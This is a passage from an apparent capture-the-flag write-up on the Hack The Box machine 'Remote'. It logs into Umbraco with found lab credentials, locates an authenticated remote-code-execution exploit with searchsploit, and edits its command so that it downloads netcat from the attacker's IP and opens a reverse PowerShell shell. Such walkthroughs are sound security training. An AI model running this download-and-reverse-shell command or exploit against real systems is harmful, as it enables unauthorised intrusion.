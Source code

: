 Going to 
~~~ 
http://remote.htb/install
~~~
Redirects me to umbraco's login page

![Umbraco login page](https://jackhack.se/assets/images/remote/install.png)
{: .full}

Logging in with the obtained credentials works, checking the "Help" menu also reveals the version of Umbraco

![Version](https://jackhack.se/assets/images/remote/version.png)
{: .full}

Using searchsploit to check for any known vulnerabilies in Umbraco

~~~
┌──(kali@kali)-[~/boxes/remote]
└─$ searchsploit umbraco
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                                                                      | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                                                                               | aspx/webapps/46153.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                                                                               | php/webapps/44988.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali@kali)-[~/boxes/remote]
└─$ cp /usr/share/exploitdb/exploits/aspx/webapps/46153.py .
┌──(kali@kali)-[~/boxes/remote]
└─$ vi 46153.py
~~~
{: .language-bash}

Editing some parts of the script

* Changing authentication parameters: 
*login = "admin@htb.local";
password="baconandcheese";
host = "http://remote.htb/";*
* Changin cmd to download netcat binary, execute it and provide me with a powershell-shell
*cmd = "mkdir /tmp;iwr -uri http://10.10.14.40/nc.exe -outfile /tmp/nc.exe;/tmp/nc.exe 10.10.14.40 9001 -e powershell*
